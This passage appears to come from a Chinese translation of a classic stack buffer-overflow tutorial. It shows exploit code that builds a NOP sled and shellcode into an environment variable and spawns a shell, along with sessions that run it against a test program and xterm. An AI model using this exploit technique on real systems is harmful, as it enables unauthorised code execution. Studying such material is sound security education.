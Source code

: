 &nbsp;&nbsp;for (i = 0; i &lt; bsize/2; i++)

&nbsp; &nbsp; buff[i] = NOP;

&nbsp;&nbsp;ptr = buff + ((bsize/2) - (strlen(shellcode)/2));

&nbsp;&nbsp;for (i = 0; i &lt; strlen(shellcode); i++)

&nbsp; &nbsp; *(ptr++) = shellcode[i];

&nbsp;&nbsp;buff[bsize - 1] = '"0';

&nbsp;&nbsp;memcpy(buff,"EGG=",4);

&nbsp;&nbsp;putenv(buff);

&nbsp;&nbsp;system("/bin/bash");

}

------------------------------------------------------------------------------

&nbsp; &nbsp; 我们所使用的缓冲区大小最好比要使其溢出的缓冲区大100字节左右. 我们在要使其

溢出的缓冲区尾部放置shellcode, 为NOP指令留下足够的空间, 仍然使用我们推测的地址

来覆盖返回地址. 这里我们要使其溢出的缓冲区大小是512字节, 所以我们使用612字节.

现在使用新的破解程序来使我们的测试程序溢出:

------------------------------------------------------------------------------
  
[aleph1]$ ./exploit3 612

Using address: 0xbffffdb4
  
[aleph1]$ ./vulnerable $EGG

$

------------------------------------------------------------------------------

&nbsp; &nbsp; 哇!一击中的!这个改进成千倍地提高了我们的命中率. 下面在真实的环境中尝试一

下缓冲区溢出. 在Xt库上运用我们所讲述的方法. 在例子中, 我们使用xterm(实际上所有

连接Xt库的程序都有漏洞). 计算机上要运行X Server并且允许本地的连接. 还要相应设

置DISPLAY变量.

------------------------------------------------------------------------------
  
[aleph1]$ export DISPLAY=:0.0
  
[aleph1]$ ./exploit3 1124

Using address: 0xbffffdb4
  
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG

Warning: Color name "隵1F

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&#176;
